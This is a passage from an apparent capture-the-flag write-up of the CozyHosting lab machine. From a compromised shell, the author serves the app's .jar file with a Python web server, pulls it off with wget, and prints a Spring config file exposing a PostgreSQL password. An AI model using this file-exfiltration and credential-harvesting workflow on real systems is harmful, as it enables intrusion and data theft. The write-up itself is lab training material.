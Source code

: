```

```

Unsure what to do with `.jar`. Taking a hint, I learned I need `jd-gui` to view jar files better. Unfortunately, `jd-gui` is not working, the `.jar` file does not open in this app. When I `cat` the file it shows the HTML for the home page

It turns out that my syntax for `wget` was incorrect and I forgot to start a web server on the remote host.

Creating a web server from the remote host on port 9882:

```
app@cozyhosting:/app$ python3 -m http.server 9882
python3 -m http.server 9882
10.10.14.83 - - [29/Feb/2024 18:14:01] "GET /cloudhosting-0.0.1.jar HTTP/1.1" 200 -
```

Grabbing the file from my local host using `wget`:

```
-[Thu Feb 29-10:13:56]-[table@parrot]-
-[~]$ wget 10.10.11.230:9882/cloudhosting-0.0.1.jar
--2024-02-29 10:14:02--  http://10.10.11.230:9882/cloudhosting-0.0.1.jar
Connecting to 10.10.11.230:9882... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.jar          100%[=====================================================>]  57.47M  17.4MB/s    in 3.5s    

2024-02-29 10:14:06 (16.6 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]

```

Now that I have the `.jar` file, I can unzip it and read the contents. Inside the `.jar` extract, we find a file containing `postgres` credentials:

```
-[Thu Feb 29-10:16:55]-[table@parrot]-
-[~/BOOT-INF/classes]$ cat application.properties 
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

